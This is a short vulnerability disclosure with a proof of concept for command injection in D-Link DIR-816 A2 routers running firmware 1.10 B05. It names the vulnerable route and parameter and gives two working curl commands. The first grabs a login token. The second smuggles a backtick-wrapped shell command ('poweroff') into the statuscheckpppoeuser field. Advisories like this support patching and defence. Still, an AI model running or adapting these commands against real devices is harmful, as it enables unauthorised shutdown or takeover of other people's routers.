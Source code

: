 # D-Link DIR-816 A2 Command Injection

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: GD@hillstone

**Vendor Homepage**: http://www.dlink.com.cn/

## detail description

An issue was discovered on D-Link DIR-816 A2 1.10 B05 devices. An HTTP request parameter is used in command string construction in the handler function of the /goform/dir_setWanWifi route. This could lead to command injection via shell metacharacters in the statuscheckpppoeuser parameter.

## POC

first,get the token

`curl -s http://192.168.0.1/dir_login.asp | grep tokenid`

<input type="hidden" name="tokenid"  value="xxxx" >

then,we could send the crafted parameter along with the token to the route:

```
curl -i -X POST http://192.168.0.1/goform/dir_setWanWifi -d tokenid=xxxx -d 'statuscheckpppoeuser=`poweroff`'
```



